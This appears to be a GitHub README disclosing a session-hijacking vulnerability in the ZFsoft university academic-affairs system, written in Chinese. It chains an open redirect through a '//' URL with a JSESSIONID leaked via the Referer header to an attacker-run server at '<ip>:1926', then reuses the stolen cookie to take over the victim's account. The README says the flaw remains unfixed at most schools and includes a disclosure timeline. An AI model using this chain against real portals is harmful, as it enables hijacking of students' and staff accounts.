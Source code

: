 # zfsoft-Hijacking-0day-PoC
正方教务系统Session Hijacking通杀0day

**仅供学习研究使用，不对任何滥用行为负责。**

- 通用漏洞，测试过多所高校。
- 状态：已被厂商接受，仅在SJTU修复

可与另一水平权限绕过漏洞组合，本文仅公开PoC。

## 任意重定向
浏览器会话期初次访问会设置JSESSIONID，认证通过后会回到上次浏览的界面，考虑如下地址: `http://x.edu.cn/1`由于不存在会被跳转到主页`http://x.edu.cn/xtgl/login_slogin.html;jsessionid=<id>`，注意这里只有浏览器会话期初次访问，也就是原来没有cookie的时候才会以这样的方式设置JSESSIONID，这时候认证通过之后就会跳转回`http://x.edu.cn/1`

登陆成功后会有302重定向

    HTTP/1.1 302 Found
    X-Powered-By: Servlet/3.0 JSP/2.2 (Apache Tomcat/7.0.92 Java/Oracle Corporation/1.8.0_201-b09)
    X-Frame-Options: SAMEORIGIN
    X-XSS-Protection: 1; mode=block
    X-Content-Type-Options: nosniff
    Set-Cookie: rememberMe=deleteMe; Path=/; Max-Age=0; Expires=Sun, 09-Jun-2019 15:10:06 GMT
    Location: /1
    Content-Language: zh-CN
    Content-Length: 0
    Date: Mon, 10 Jun 2019 15:10:06 GMT
    Server: ZFSOFT.Inc
    Set-Cookie: kc@x.edu.cn=<cookie>;expires=Mon, 10-Jun-2019 20:14:30 GMT;path=/

可以看到这里的`Location`就是我们开始访问的地址，既然可以控制这个我就试了下不过没有CRLF Injection :(
然而我们还可以用`//`例如`http://x.edu.cn//www.baidu.com`绕过限制从而达到任意网址跳转

## Referer泄漏
我们已经可以控制登陆成功后的重定向地址了，JAVA会在首次访问的时候设置JSESSIONID。然而由于，Java Spring默认的奇怪操作会把它的值显示在URL中比如`http://x.edu.cn/xtgl/login_slogin.html;jsessionid=<id>`，这样认证的时候HTTP头中的Referer就会泄漏掉它。
**有些学校不使用内建的登陆系统（比如采用OAuth2），这时候有可能会在认证的时候覆盖掉Referer导致攻击失效。经测试如OAuth支持SSO，在已经登陆的前提下可能不会覆盖Referer，需要具体测试。**

## PoC
攻击条件:
- 目标系统部署在根目录（`/xtgl/`在根路径下）
- 使用内置登陆或通过SSO等
- 浏览器会话期未访问过目标网站

开一个简单的服务器(网上找的，为了更加隐蔽可以重定向到`x.edu.cn`，这样受害者就不会察觉了，我们这里为了看到效果返回200)：

    python2 server.py

目标URL: `http://x.edu.cn//<ip>:1926`
受害者访问此URL，就会被重定向到首页（从这个时候起URL是看不出任何异常的），认证通过后会被重定向到`<ip>:1926`，我们可以从服务端的输出看到JSESSIONID。
替换一下Cookie即可登录受害者账户，可结合其他漏洞提权等等，此处不公开。

![oops.png](oops.png)

## 修复
在SJTU系统中首次发现并上报，现在URL中不会出现JSESSIONID了，攻击链切断。但是任意重定向依然没有被修复（差评），如能找到XSS或者OAuth2认证不严格的缺陷依然有可能攻击（理论上这时候攻击条件还能更弱）。

## 时间节点
- 2019-06-09 漏洞初次发现
- 2019-06-10 漏洞上报
- 2019-06-11 厂商确认，优先度高危，RANK 7/10
- 2019-06-16 测试发现SJTU系统已经修复
- 2019-06-23 漏洞公开